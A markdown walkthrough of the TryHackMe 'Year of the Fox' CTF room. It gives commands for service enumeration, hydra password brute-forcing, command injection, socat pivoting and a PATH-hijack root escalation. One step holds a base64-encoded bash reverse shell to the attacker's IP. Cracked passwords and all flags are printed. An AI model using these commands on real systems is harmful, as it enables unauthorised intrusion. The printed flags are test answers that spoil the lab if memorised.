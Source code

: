 
# 🦊 TryHackMe: Year of the Fox (Hard)

> A multi-layered CTF challenge combining brute force, Samba enumeration, HTTP basic auth, remote code execution, SSH tunneling, and PATH hijacking for root privilege escalation.

---

## 🎯 Objectives

- Enumerate exposed services
- Brute-force login credentials
- Identify RCE vulnerability in web application
- Use SSH tunneling to pivot access
- Escalate privileges using `sudo` and `PATH` hijack
- TO find web,user,root flags.

---

## 🔧 Tools Used

- `nmap`, `enum4linux`, `hydra`, `burp`, `linpeas`
- `socat`, `ssh`, `find`

---

## 🔍 Scanning & Enumeration

Nmap scan:
```bash
nmap -A -sV 10.10.172.81
```

Discovered:
- Port 80 – Apache (with basic auth)
- Port 139/445 – Samba (workgroup: YEAROFTHEFOX)
- Port 7000 – OpenSSH

Ran enum4linux:
```bash
enum4linux -a 10.10.172.81
```

Discovered users:
- `fox`
- `rascal`

---

## 🔐 Brute Force Login (HTTP Basic Auth)

Used `hydra` to brute-force credentials:
```bash
hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.172.81 http-head /
```
and found password: `gunit`.

Logged in as **rascal**.

---

## 💥 Remote Code Execution

After login, encountered a "Search System".

Captured request using Burp Suite.  
Discovered **RCE** in search parameter.  
Gained reverse shell and found **Web Flag** using `echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC40LjEwNi43My8xMjM0IDA+JjEiCg== | base64 -d | bash`:
```
THM{Nzg2ZWQwYWUwN2UwOTU3NDY5ZjVmYTYw}
```

---

## 🔄 SSH Port Forwarding & Pivot

After running linpeas:
Discovered local-only SSH on 127.0.0.1:22  
Used socat to forward:
```bash
socat tcp-listen:7000,reuseaddr,fork tcp:127.0.0.1:22
```

Then brute-forced user `fox`:
```bash
hydra -l fox -P /usr/share/wordlists/rockyou.txt ssh://10.10.172.81:7000
```
Found password : `biteme`.
Logged in via SSH and grabbed **User Flag**:
```
THM{Njg3NWZhNDBjMmNlMzNkMGZmMDBhYjhk}
```

---

## 🔼 Privilege Escalation via PATH Hijack

Checked `sudo -l`:
```bash
User fox may run: /sbin/shutdown
```

Identified that `shutdown` runs `poweroff`.

Replaced with custom script:
```bash
echo /bin/bash > poweroff
chmod +x poweroff
export PATH=$(pwd):$PATH
sudo shutdown
```

Gained **root shell** ✅

---

## 🔍 Root Flag Hunt

Initial `root.txt` said:
> Not here -- go find!

Searched using:
```bash
find / -type f -iname '*root*' 2>/dev/null
```

Found and captured final **Root Flag**:
```
THM{ODM3NTdkMDljYmM4ZjdhZWFhY2VjY2Fk}
```

---

## 📚 What I Learned

- Enumerating users via SMB and brute-forcing HTTP/SSH credentials
- Discovering RCE in POST requests
- SSH tunneling with `socat`
- Abusing PATH manipulation to override `poweroff`
- Root flag recon using `find`

---

✅ End of Walkthrough.
